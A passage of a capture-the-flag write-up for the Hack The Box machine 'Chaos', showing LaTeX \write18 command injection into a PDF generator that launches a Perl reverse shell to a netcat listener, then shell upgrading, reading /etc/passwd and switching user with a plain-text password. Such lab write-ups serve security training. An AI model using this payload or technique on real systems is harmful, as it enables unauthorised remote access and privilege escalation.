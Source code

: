 ```text
~/ctf/htb/chaos λ nc -l -n -v -p 9002
```

Now I'm ready to receive a connection on port 9002. Let's craft the text for the pdf maker so that it runs our reverse shell and connects back:

```text
\immediate\write18{perl -e 'use Socket;$i="10.10.x.x";$p=9002;socket(S,PF_INET,SOCK_STREAM,
getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'}
```

Once I hit the Create PDF button, it works. I now have a shell on the machine:

```text
~/ctf/htb/chaos λ nc -l -n -v -p 9002
listening on [any] 9002 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.10.120] 43736
/bin/sh: 0: can't access tty; job control turned off
$
```

The process we used to get access on the machine was run by the "www-data" user, so the shell is limited and won't allow us to do much:

```text
$ whoami
www-data
$ echo $0
/bin/sh
```

## Privilege Escalation
Once we have a shell we do basic linux enumeration to look for ways to escalate our privileges. One of the many commands is to view /etc/passwd to view the users of the machine:

```text
$ cat /etc/passwd |grep ayush
ayush:x:1001:1001:,,,:/home/ayush:/opt/rbash
```

We've seen a lot of talk from ayush and we have a password of his from before, so we look for him and find him. The /bin/sh won't let us run the su command, so let's use a little python trick to get a bash shell first:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@chaos:/home$ echo $0
/bin/bash
```

Nice, now that we have a bash shell, let's try to su as ayush and get that user flag.

```text
www-data@chaos:/home$ su ayush
su ayush
Password: jiujitsu

ayush@chaos:/home$ whoami
whoami
rbash: /usr/lib/command-not-found: restricted: cannot specify / in command names

ayush@chaos:/home$ cat /home/ayush/user.txt
cat /home/ayush/user.txt
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```


[1]: https://www.hackthebox.eu
[2]: https://www.exploit-db.com
[3]: https://github.com/Unode/firefox_decrypt